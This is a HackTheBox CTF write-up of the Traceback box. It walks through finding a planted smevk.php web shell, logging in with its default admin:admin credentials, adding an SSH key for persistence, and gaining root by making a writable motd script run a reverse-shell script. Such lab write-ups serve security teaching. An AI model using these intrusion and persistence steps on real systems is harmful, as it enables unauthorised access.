 ```yaml
---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - OSINT
  - insecure-file-permissions
  - lua
  - luvit
  - webshell
  - Linux
---
```

### Improved skills

- OSINT
- Luvit lateral movement
- motd privilege escalation

### Used tools

- nmap
- owasp zap
- pspy64
- netcat

---

## Introduction & Foothold

Like for every CTF we made, let’s start scanning the box with **nmap**

```bash
$ nmap 10.10.10.181 --top-ports 25 --open -sC -sV -oA nmap/openPorts.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, there are only two services exposed: **SSH** (port 22) and the **Apache Web Server** (port 80).

Visiting the site, we discover that the machine **has been owned** and *there is a backdoor*

![1.png](../../zzz_res/attachments/1.png)

Looking to the source code of the page, a comment comes out.

![2.png](../../zzz_res/attachments/2.png)

Searching it on google, it reveals to be the description of a repo containing only web-shells. *We can suppose that one of those shells is the one used in this machine*.

Assuming this, lets **create a wordlist using the discovered shells’ name** and **fuzz** the web page in order to find the correct one.

![3.png](../../zzz_res/attachments/3.png)

![4.png](../../zzz_res/attachments/4.png)

**Bingo!** `smevk.php` is the web shell used on the box.

![5.png](../../zzz_res/attachments/5.png)

**Credentials** can be found **on the source code on github.** Easily guessable, the combination is `admin:admin`

![6.png](../../zzz_res/attachments/6.png)

Once inside, we can easily submit commands to the box. In order to get a more stable and comfortable shell, **I added my SSH key to the `authorized_keys` file**, obtaining an SSH access as **webadmin**.

![7.png](../../zzz_res/attachments/7.png)

![8.png](../../zzz_res/attachments/8.png)

## Lateral Movement to sysadmin

Listing all the files within the webadmin home directory, we discovered the presence of [Luvit](https://luvit.io/), a

>[!info]
> scripting platform just like node. This can be used to run lua scripts as standalone servers, clients, or other tools.


Furthermore, **webadmin has the permissions to run luvit as sysadmin** using **sudo**. It becames easy to perform action as sysadmin, like reading files

![9.png](../../zzz_res/attachments/9.png)

or getting a shell:

![10.png](../../zzz_res/attachments/10.png)

## Privilege Escalation

Analyzing the processes running on the machine I noticed the **presence of a process owned by the root modifiable by sysadmin**.

```bash
2020/03/15 15:45:01 CMD: UID=106  PID=28288  | sshd: [net]          
2020/03/15 15:45:01 CMD: UID=0    PID=28290  | run-parts --lsbsysinit /etc/update-motd.d 
2020/03/15 15:45:01 CMD: UID=0    PID=28289  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2020/03/15 15:45:01 CMD: UID=0    PID=28297  | cut -c -80 
2020/03/15 15:45:01 CMD: UID=0    PID=28296  | 
2020/03/15 15:45:01 CMD: UID=0    PID=28295  | 
2020/03/15 15:45:01 CMD: UID=0    PID=28293  | /bin/sh /etc/update-motd.d/50-motd-news 
2020/03/15 15:45:01 CMD: UID=0    PID=28298  | run-parts --lsbsysinit /etc/update-motd.d 
2020/03/15 15:45:01 CMD: UID=0    PID=28299  | /usr/bin/python3 -Es /usr/bin/lsb_release -cs 
2020/03/15 15:45:01 CMD: UID=0    PID=28301  | /usr/sbin/CRON -f 
2020/03/15 15:45:01 CMD: UID=0    PID=28300  | /usr/sbin/CRON -f 
2020/03/15 15:45:01 CMD: UID=0    PID=28305  | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28304  | sleep 30 
2020/03/15 15:45:01 CMD: UID=0    PID=28303  | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28302  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28306  | /usr/bin/python3 -Es /usr/bin/lsb_release -ds 
2020/03/15 15:45:01 CMD: UID=0    PID=28307  | /bin/sh /etc/update-motd.d/91-release-upgrade 
2020/03/15 15:45:01 CMD: UID=0    PID=28310  | cut -d  -f4 
2020/03/15 15:45:01 CMD: UID=0    PID=28309  | /usr/bin/python3 -Es /usr/bin/lsb_release -sd 
2020/03/15 15:45:01 CMD: UID=0    PID=28308  | /bin/sh /etc/update-motd.d/91-release-upgrade 
2020/03/15 15:45:02 CMD: UID=0    PID=28315  | sshd: sysadmin [priv]
2020/03/15 15:45:02 CMD: UID=1001 PID=28316  | -sh
```

`/etc/update-motd.d/50-motd-news` is called **every time a user logs into the box**, with **root privileges**. However, **this file can be edited from non-root users**. 

Abusing this issue, let’s use the reverse shell script used before in order to obtain a reverse shell as root at the next login.

```bash
sysadmin@traceback:~$ nano /etc/update-mot.d/50-motd-news

#!/bin/bash
/bin/bash /tmp/revShell.sh
...
```

![11.png](../../zzz_res/attachments/11.png)

# Trophy

>[!quote]
>Aim for the sky, but move slowly, enjoying every step along the way. It is all those little steps that make the journey complete.
>
>\- Chanda Kochhar


